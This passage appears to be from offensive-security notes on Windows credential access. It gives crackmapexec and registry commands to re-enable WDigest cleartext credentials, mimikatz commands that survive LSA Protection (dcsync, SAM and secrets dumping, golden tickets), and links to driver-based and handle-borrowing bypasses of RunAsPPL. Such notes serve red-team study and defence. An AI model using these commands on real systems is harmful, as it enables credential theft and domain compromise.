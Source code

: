 As an attacker you can reactivate WDigest to get cleartext credentials on sensitive systems.  
```
crackmapexec smb 192.168.0.10 -u jdoe -p Pass123 -M wdigest -o ACTION=enable
```
```
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1
```

#### Passwords stored in LSA (LSA Storage)

Since *Windows 8.1* you can protect LSA storage using Protected Process ([RunAsPPL](https://itm4n.github.io/lsass-runasppl/)).  
--> This will prevent regular ```mimikatz.exe sekurlsa:logonpasswords``` for working properly.

With this registry key enable, the following *3* actions (which require an handle on LSASS  ) will no longer be possible:
```
sekurlsa:logonpasswords
lsadump::lsa: Did not work
sekurlsa::pth /user:<user> /domain:<domain> /ntlm:<ntlmhash>
```

With this registry key enable, the following *5* actions will still be possible:
```
lsadump::dcsync /domain:<domain> /user:<user>
lsadump::secrets (get syskey information to decrypt secrets from the registry on disk)
lsadump::sam (Reading credentials from the SAM on disk)
kerberos::golden /user:<user> /domain:<domain> /sid:<sid> /krbtgt:<krbtgt hash> /endin:<value> /renewmax:<value>
keystroke logging
```

Validate *RunAsPPL* is enable
```
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\LSA /v RunAsPPL
```

- https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets

Documentation about LSA secrets: https://www.passcape.com/index.php?section=docsys&cmd=details&id=23

--> Mimikatz has the *mimidrv.sys* driver that can bypass LSA Protection. Pretty much flag everywhere you will need to write you own driver. 
    - https://posts.specterops.io/mimidrv-in-depth-4d273d19e148 
--> You can also build your own driver and sign it digitally  
--> You can also load an official and vulnerable driver that can be exploited to run arbitrary code in the Kernel  
    - https://github.com/fengjixuchui/gdrv-loader  
    - https://github.com/RedCursorSecurityConsulting/PPLKiller 
    - https://gorkemkaradeniz.medium.com/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5 
--> Use other process (e.g Antivirus process) which sometimes have already handles on LSASS process  
    - https://skelsec.medium.com/duping-av-with-handles-537ef985eb03  
